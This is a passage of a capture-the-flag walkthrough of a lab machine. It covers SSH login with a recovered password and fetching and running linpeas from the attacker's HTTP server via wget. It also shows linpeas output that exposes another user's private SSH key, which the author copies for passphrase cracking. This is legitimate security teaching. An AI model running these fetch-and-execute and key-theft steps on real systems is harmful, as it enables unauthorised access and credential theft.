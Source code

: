 From this we now know the passfor for the user Jan, which is `armando`.

### ssh

Login to ssh with username `jan` and supplying `armando` as password. `ssh jan@10.10.x.x`

We are in!

### linpeas

We can speed up our enumeration process with linpeas or LinEnum, in this case I used linpeas. You can use any technique you want to upload it to the machine. I used a simple http python server to upload the file:

1. On your machine, run `python3 -m http.server 8000` inside the folder with the linpeas script
2. On the victim machine, navigate to `/tmp` to download the script 
3. Download the script with `wget http://YOUR_IP:8000/linpeas.sh`
4. Mark the script as executable `chmod +x linpeas.sh`
5. Run the script `./linpeas.sh`

From all the output, we can see a private ssh key for the user kay.

```
[+] Searching ssl/ssh files
/home/kay/.ssh/authorized_keys                                                                                                                             
/home/kay/.ssh/id_rsa
/home/kay/.ssh/id_rsa.pub
Port 22
PermitRootLogin prohibit-password
PubkeyAuthentication yes
PermitEmptyPasswords no
ChallengeResponseAuthentication no
UsePAM yes
Possible private SSH keys were found!
/home/kay/.ssh/id_rsa
 --> /etc/hosts.allow file found, read the rules:
/etc/hosts.allow

[+] Searching uncommon passwd files (splunk)
passwd file: /etc/cron.daily/passwd                                                                                                                        
passwd file: /etc/pam.d/passwd
passwd file: /usr/bin/passwd
passwd file: /usr/share/bash-completion/completions/passwd
passwd file: /usr/share/lintian/overrides/passwd
```

1. Read the file so we can copy its contents `cat /home/kay/.ssh/id_rsa`
2. Copy the file and copy its contents in a new file on your machine

If we try and login with this file, we are going to be asked for a passphrase, which we dont know, but we can try and crack it using JohnTheRipper.

### JohnTheRipper
